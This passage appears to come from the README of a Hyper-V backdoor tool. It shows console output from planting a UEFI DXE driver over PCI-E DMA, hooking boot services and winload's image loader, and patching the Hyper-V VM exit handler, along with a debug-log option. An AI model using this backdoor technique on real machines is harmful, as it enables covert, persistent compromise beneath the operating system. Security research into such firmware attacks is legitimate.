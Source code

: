 ```
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0x7a3987b4
Backdoor image size is 0x2c20
Backdoor entry RVA is 0xbd4
Planting DXE stage driver at 0xc0000...
Hooking LocateProtocol(): 0x7a3987b4 -> 0x000c0bd4
3.611646 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed, you can read its debug messages by running this program with --debug-output option
[+] Waiting for Hyper-V load...
[+] Hyper-V image was loaded

    Hyper-V image base: 0xfffff8072d690000
           Image entry: 0xfffff8072d901360
       VM exit handler: 0xfffff8072d8add90

[+] DONE
```

UEFI DXE driver of Hyper-V Backdoor is also printing its debug messages on the screen. In addition, you can use `--debug-output` option of `uefi_backdoor_hv.py` to read this debug messages from the target system physical memory and print them into the stdout:

```
$ ./uefi_backdoor_hv.py --debug-output
[+] PCI-E link with target is up
[+] Debug output buffer address is 0x79db3000

DmaBackdoorHv.c(1018) : ******************************
DmaBackdoorHv.c(1019) :
DmaBackdoorHv.c(1020) :   Hyper-V backdoor loaded!
DmaBackdoorHv.c(1021) :
DmaBackdoorHv.c(1022) : ******************************
DmaBackdoorHv.c(1055) : Image address is 0xc0000
DmaBackdoorHv.c(275) : BackdoorImageRealocate(): image size = 0x3260
DmaBackdoorHv.c(1065) : Resident code base address is 0x79daf000
DmaBackdoorHv.c(794) : Protocol notify handler is at 0x79daf364
DmaBackdoorHv.c(819) : BackdoorEntryResident()
DmaBackdoorHv.c(830) : OpenProtocol() hook was set, handler = 0x79db1477
DmaBackdoorHv.c(835) : ExitBootServices() hook was set, handler = 0x79db1487
DmaBackdoorHv.c(447) : winload.dll is at 0x8ee000
DmaBackdoorHv.c(448) : winload!BlLdrLoadImage() is at 0x984a10
DmaBackdoorHv.c(477) : 535 free bytes found at the end of the code section at 0xa4ade9
DmaBackdoorHv.c(527) : winload!BlLdrLoadImage() hook was set, handler is at 0x79daf50c
DmaBackdoorHv.c(350) : new_BlLdrLoadImage(): Path = "\WINDOWS\system32\mcupdate_GenuineIntel.dll"
DmaBackdoorHv.c(350) : new_BlLdrLoadImage(): Path = "\WINDOWS\system32\hvix64.exe"
HyperV.c(369) : HyperVHook(): Hyper-V image is at 0xfffff80144e0d000
HyperV.c(388) : HyperVHook(): Resources section RVA is 0x1400000 (0x200000 bytes)
HyperV.c(425) : HyperVHook(): Code section RVA is 0x200000
HyperV.c(604) : HyperVHook(): Hyper-V VM exit handler is at 0xfffff8014502ad90
HyperV.c(605) : HyperVHook(): Backdoor code size is 684 bytes
DmaBackdoorHv.c(350) : new_BlLdrLoadImage(): Path = "\WINDOWS\system32\kdstub.dll"
DmaBackdoorHv.c(350) : new_BlLdrLoadImage(): Path = "\WINDOWS\system32\hv.exe"
DmaBackdoorHv.c(560) : new_ExitBootServices() called
```
